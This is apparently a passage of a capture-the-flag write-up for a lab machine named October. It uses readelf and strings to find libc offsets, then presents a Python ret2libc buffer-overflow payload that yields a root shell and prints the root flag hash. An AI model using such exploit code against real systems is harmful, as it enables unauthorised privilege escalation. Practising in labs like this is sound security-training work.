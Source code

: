 We need more information to abusse of the buffer overflow we're going to use this

Readelf displays information about one or more ELF format object files. The options control what particular information to display. elffile... are the object files to be examined. 32-bit and 64-bit ELF files are supported, as are archives containing ELF files.

```bash
www-data@october:/tmp$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -E " system| exit"
   139: 00033260    45 FUNC    GLOBAL DEFAULT   12 exit@@GLIBC_2.0
  1443: 00040310    56 FUNC    WEAK   DEFAULT   12 system@@GLIBC_2.0
www-data@october:/tmp$
```

This is a python3 script to have a shell with root

```bash
#!/usr/bin/python3

from struct import pack

offset = 112
junk = b"A"*offset 

base_libc_addr = 0xb75d1000
# libc is dinamyc take a dirrection for example I goint to use 0xb75d1000 and exist collision
# www-data@october:/tmp$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -E " system| exit"
#   139: 00033260    45 FUNC    GLOBAL DEFAULT   12 exit@@GLIBC_2.0
#  1443: 00040310    56 FUNC    WEAK   DEFAULT   12 system@@GLIBC_2.0
# www-data@october:/tmp$ strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep "/bin/sh"
# 162bac /bin/sh
# www-data@october:/tmp$  

system_addr_off = 0x00040310
exit_addr_off = 0x00033260 
bin_sh_addr_off = 0x00162bac

system_addr = pack("<L", base_libc_addr + system_addr_off)
exit_addr = pack ("<L", base_libc_addr + exit_addr_off)
bin_sh_addr = pack("<L", base_libc_addr + bin_sh_addr_off)

payload = junk + system_addr + exit_addr + bin_sh_addr
print(payload)
```

And works

```bash
www-data@october:/tmp$ python3 buff.py 
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x10\x13a\xb7`B`\xb7\xac;s\xb7'
# whoami
root
# cat /root/root.txt
90cef5e85f1e0969b4355a3bc2e789fd
#
```


